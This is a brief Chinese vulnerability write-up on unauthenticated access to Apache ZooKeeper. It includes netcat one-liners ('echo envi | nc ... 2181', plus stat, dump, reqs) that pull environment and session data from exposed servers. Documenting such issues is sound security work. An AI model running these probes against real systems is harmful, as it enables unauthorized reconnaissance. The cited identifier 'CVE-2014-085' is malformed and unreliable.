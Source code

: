 # Apache ZooKeeper 未授权访问漏洞 CVE-2014-085

## 漏洞描述

默认安装配置完的zookeeper允许未授权访问，管理员未配置访问控制列表（ACL）。导致攻击者可以在默认开放的2181端口下通过执行envi命令获得大量敏感信息（系统名称、java环境）导致任意用户可以在网络不受限的情况下进行未授权访问读取数据

## 漏洞影响

```
Apache ZooKeeper
```

## 漏洞复现

Apache  ZooKeeper 默认开放 2181端口 ,使用如下命令获取敏感数据

```shell
echo envi | nc xxx.xxx.xxx.xxx 2181
```

![image-20220209122400884](./images/202202091224952.png)

其他信息

```shell
1、stat：列出关于性能和连接的客户端的统计信息。
echo stat |ncat 127.0.0.1 2181

2、ruok：测试服务器是否运行在非错误状态。
echo ruok |ncat 127.0.0.1 2181

3、reqs：列出未完成的请求。
echo reqs |ncat 127.0.0.1 2181
　　
4、envi：打印有关服务环境的详细信息。
echo envi |ncat 127.0.0.1 2181
　　
5、dump：列出未完成的会话和临时节点。
echo dump |ncat 127.0.0.1 2181
```